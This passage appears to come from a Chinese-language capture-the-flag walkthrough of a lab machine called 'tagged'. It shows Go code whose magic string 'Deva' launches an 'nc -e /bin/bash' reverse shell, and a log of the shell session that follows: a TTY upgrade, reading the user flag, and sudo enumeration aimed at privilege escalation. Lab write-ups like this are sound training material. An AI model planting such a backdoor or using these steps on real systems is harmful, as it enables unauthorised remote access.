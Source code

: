 ```bash
    tohtml = "<pre>"+message+"</pre>"
    OMG := "Deva"
    if message == OMG {
        cmd := exec.Command("nc","-e","/bin/bash","127.0.0.1","7777")
        _ = cmd.Run()
        }
    file, err := os.OpenFile("/var/www/html/index.php", os.O_APPEND|os.O_WRONLY, 0644)
    _, _ = fmt.Fprintln(file, tohtml)
        if err != nil {
        log.Fatal(err)
        }
 defer file.Close()
  }
}
```

发现存在反弹shell。。。。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404131729310.png" alt="image-20240413165713283" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404131729311.png" alt="image-20240413165707070" style="zoom:50%;" />

扩展一下：

```bash
whoami;id
shyla
uid=1001(shyla) gid=1001(shyla) grupos=1001(shyla)
script /dev/null -c /bin/bash
Script iniciado, el fichero de anotación de salida es '/dev/null'.
shyla@tagged:~$ ls -la
ls -la
total 2856
drwxr-xr-x 3 shyla shyla    4096 nov 14  2022 .
drwxr-xr-x 4 root  root     4096 nov 14  2022 ..
lrwxrwxrwx 1 shyla shyla       9 nov 14  2022 .bash_history -> /dev/null
-rw-r--r-- 1 shyla shyla     220 nov 14  2022 .bash_logout
-rw-r--r-- 1 shyla shyla    3526 nov 14  2022 .bashrc
drwxr-xr-x 3 shyla shyla    4096 nov 14  2022 .local
-rwxr-xr-x 1 shyla shyla 2887781 nov 14  2022 magiccode
-rw-r--r-- 1 shyla shyla     807 nov 14  2022 .profile
-rw-r--r-- 1 shyla shyla      66 nov 14  2022 .selected_editor
-rw------- 1 shyla shyla      13 nov 14  2022 user.txt
shyla@tagged:~$ cat user.txt
cat user.txt
g0disah4ck3r
shyla@tagged:~$ sudo -l
sudo -l
Matching Defaults entries for shyla on tagged:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User shyla may run the following commands on tagged:
    (uma) NOPASSWD: /usr/bin/goaccess
    (ALL) NOPASSWD: /usr/bin/php /var/www/html/report.php
shyla@tagged:~$ cat /var/www/html/report.php
cat /var/www/html/report.php
shyla@tagged:~$ file /usr/bin/goaccess
file /usr/bin/goaccess
/usr/bin/goaccess: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=1366b6cf356515bf1cc544825c8ea3d952208409, for GNU/Linux 3.2.0, stripped
shyla@tagged:~$ /usr/bin/goaccess
/usr/bin/goaccess
```